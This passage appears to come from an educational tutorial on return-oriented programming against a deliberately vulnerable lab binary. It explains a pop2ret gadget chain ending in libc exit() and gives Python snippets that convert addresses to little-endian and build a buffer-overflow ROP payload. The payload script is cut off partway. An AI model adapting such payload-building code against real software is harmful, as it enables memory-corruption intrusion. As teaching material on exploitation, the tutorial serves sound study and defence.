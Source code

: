Note the following key points from the above gif:

* We're on a breakpoint inside the `rop3` function, where it's about to return by executing the `ret` instruction;
* At the top of the stack, there's an address of a `pop2ret` ROP gadget with `pop edi; pop ebp; ret` instructions inside a libc shared library loaded by our vulnerable program;
* `0xdeaddead` and `0xc0d3c0d3` are on the stop of the stack, just below the `pop2ret` address;
* Once the `ret` is executed, the code jumps to the said `pop2ret` ROP gagdet;
* `pop2ret` instructions `pop edi; pop ebp` execute and `0xdeaddead` and `0xc0d3c0d3` are popped from the stack;
* Address of the libc `exit()` function is now on top of the stack;
* Finally, `ret` instruction executes, which pops the `exit()` address from the stack and jumps to it, completing our second ROP chain execution and gracefully closing the vulnerable program.

{% hint style="info" %}
We could have chosen to inspect the `popret` gadget and we would have seen a nearly identical behaviour to the one noted above, except that `popret` would have popped only one value from the stack before executing the `ret` instruction.
{% endhint %}

## Useful Python

### Little Endian Converter

Below is a useful python snippet that converts a given memory address, i.e `0x565561d4`, to it's little-endian format, i.e `\\xd4\\x61\\x55\\x56`:

```python
import struct
'\\x' + '\\x'.join(x.encode('hex') for x in struct.pack('I', 0x565561d4)).encode("utf-8")
'\\xd4\\x61\\x55\\x56'
```

### Payload Executor

Below shows an easy way to build the stack using `struct.pack` that does not require us to deal with little-endiannes when specifying memory addresses in the exploit:

```python
#!/usr/bin/env python
import os
import struct

pop_ret = 0x5655601e
pop_pop_ret = 0x5655630a
rop1 = 0x565561b9
rop2 = 0x565561e4
rop3 = 0x56556212
exit = 0xf7e02950

# Build the stack
# Overflow
payload =  "A"*108
payload += "BBBB"

# Address of rop1()
payload += struct.pack("I", rop1)

# Address of rop2(), address of pop ret and an argument for rop2()
payload += struct.pack("I", rop2)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xbeefbeef)

# Address of rop3(), adress of pop pop ret, and arguments 1 and 2
payload += struct.pack("I", rop3)
payload += struct.pack("I", pop_pop_ret)
```